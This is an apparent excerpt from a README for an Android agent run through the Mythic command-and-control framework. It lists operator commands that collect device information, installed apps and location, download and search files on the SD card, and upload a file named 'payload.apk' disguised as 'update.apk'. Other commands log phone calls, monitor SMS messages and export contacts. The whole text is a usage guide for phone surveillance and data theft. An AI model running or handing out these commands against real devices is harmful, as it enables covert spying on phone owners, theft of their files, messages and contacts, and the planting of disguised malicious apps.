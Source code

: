 #### System Information
```bash
# Get device information
mythic-cli agent command --id <agent_id> --module core --command system_info

# Get installed applications
mythic-cli agent command --id <agent_id> --module core --command list_apps

# Get device location
mythic-cli agent command --id <agent_id> --module core --command get_location

# Get network information
mythic-cli agent command --id <agent_id> --module core --command network_info
```

#### Filesystem Operations
```bash
# List directory contents
mythic-cli agent command --id <agent_id> --module filesystem --command ls --args '{"path": "/sdcard"}'

# Download file from device
mythic-cli agent command --id <agent_id> --module filesystem --command download --args '{"path": "/sdcard/important.pdf"}'

# Upload file to device
mythic-cli agent command --id <agent_id> --module filesystem --command upload --args '{"local_path": "files/payload.apk", "remote_path": "/sdcard/update.apk"}'

# Search for files
mythic-cli agent command --id <agent_id> --module filesystem --command find --args '{"pattern": "*.pdf", "path": "/sdcard"}'

# Monitor directory changes
mythic-cli agent command --id <agent_id> --module filesystem --command monitor --args '{"path": "/sdcard/Downloads", "recursive": true}'
```

#### Communication Monitoring
```bash
# Log phone calls
mythic-cli agent command --id <agent_id> --module call_logger --command start_logging

# Get call history
mythic-cli agent command --id <agent_id> --module call_logger --command get_history --args '{"days": 7}'

# Monitor SMS messages
mythic-cli agent command --id <agent_id> --module sms_logger --command start_monitoring

# Get contact list
mythic-cli agent command --id <agent_id> --module contacts --command export_contacts
```
